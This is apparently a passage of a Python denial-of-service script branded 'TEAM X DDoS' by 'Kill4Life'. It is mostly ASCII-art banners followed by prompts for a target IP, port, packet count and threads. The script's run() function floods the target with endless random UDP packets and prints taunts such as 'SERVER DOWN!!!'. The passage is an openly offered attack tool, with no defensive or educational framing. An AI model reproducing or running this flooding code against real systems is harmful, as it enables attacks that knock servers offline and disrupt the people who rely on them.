 
████████╗███████╗░█████╗░███╗░░░███╗  ██╗░░██╗
╚══██╔══╝██╔════╝██╔══██╗████╗░████║  ╚██╗██╔╝
░░░██║░░░█████╗░░███████║██╔████╔██║  ░╚███╔╝░
░░░██║░░░██╔══╝░░██╔══██║██║╚██╔╝██║  ░██╔██╗░
░░░██║░░░███████╗██║░░██║██║░╚═╝░██║  ██╔╝╚██╗
░░░╚═╝░░░╚══════╝╚═╝░░╚═╝╚═╝░░░░░╚═╝  ╚═╝░░╚═╝

██████╗░██████╗░░█████╗░░██████╗
██╔══██╗██╔══██╗██╔══██╗██╔════╝
██║░░██║██║░░██║██║░░██║╚█████╗░
██║░░██║██║░░██║██║░░██║░╚═══██╗
██████╔╝██████╔╝╚█████╔╝██████╔╝
╚═════╝░╚═════╝░░╚════╝░╚═════╝░

Created by Kill4Life

	""")
else :
	print("""
 TEAM X is Presenting to you :


┏━━━━┳━━━┳━━━┳━┓┏━┓┏━┓┏━┓
┃┏┓┏┓┃┏━━┫┏━┓┃┃┗┛┃┃┗┓┗┛┏┛
┗┛┃┃┗┫┗━━┫┃╋┃┃┏┓┏┓┃╋┗┓┏┛
╋╋┃┃╋┃┏━━┫┗━┛┃┃┃┃┃┃╋┏┛┗┓
╋╋┃┃╋┃┗━━┫┏━┓┃┃┃┃┃┃┏┛┏┓┗┓
╋╋┗┛╋┗━━━┻┛╋┗┻┛┗┛┗┛┗━┛┗━┛
┏━━━┳━━━┓╋╋┏━━━┓
┗┓┏┓┣┓┏┓┃╋╋┃┏━┓┃
╋┃┃┃┃┃┃┃┣━━┫┗━━┓
╋┃┃┃┃┃┃┃┃┏┓┣━━┓┃
┏┛┗┛┣┛┗┛┃┗┛┃┗━┛┃
┗━━━┻━━━┻━━┻━━━┛
┏━━━┓┏┓╋┏┓╋╋╋╋╋╋┏┓
┃┏━┓┣┛┗┳┛┗┓╋╋╋╋╋┃┃
┃┃╋┃┣┓┏┻┓┏╋━━┳━━┫┃┏┓
┃┗━┛┃┃┃╋┃┃┃┏┓┃┏━┫┗┛┛
┃┏━┓┃┃┗┓┃┗┫┏┓┃┗━┫┏┓┓
┗┛╋┗┛┗━┛┗━┻┛┗┻━━┻┛┗┛
		""")


print("DDos")
ip= str(input("                   X Server ip X :"))
port= int(input("                   X port X :"))
choice = str(input("                   X DDoS Attack?? (y/n) X :"))
times= int(input("                   X Paket X :"))
threads= int(input("                   X threads X :"))
def run():
	data = random._urandom(1024)
	i = random.choice(("[-]","[•]","[×]"))
	while True:
		try:
			s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
			addr = (str(ip),int(port))
			for x in range(times):
				s.sendto(data,addr)
			print(i +"TEAM X TA9TA7EM!!!!!!")
		except:
			print("[!] SERVER DOWN!!!")
